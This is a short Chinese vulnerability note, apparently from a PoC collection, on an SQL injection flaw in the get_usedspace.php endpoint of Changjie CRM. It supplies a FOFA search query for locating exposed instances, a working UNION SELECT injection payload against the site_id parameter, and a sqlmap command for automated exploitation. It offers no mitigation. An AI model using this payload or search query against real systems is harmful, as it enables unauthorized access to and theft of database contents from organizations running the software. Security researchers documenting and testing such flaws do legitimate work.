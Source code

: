 # 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

```
畅捷CRM
```

## FOFA

```
title="畅捷CRM"
```

## 漏洞复现

登录页面

![image-20220525145239822](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251452933.png)

验证POC

```
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![image-20220525145324633](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251453704.png)

使用Sqlmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```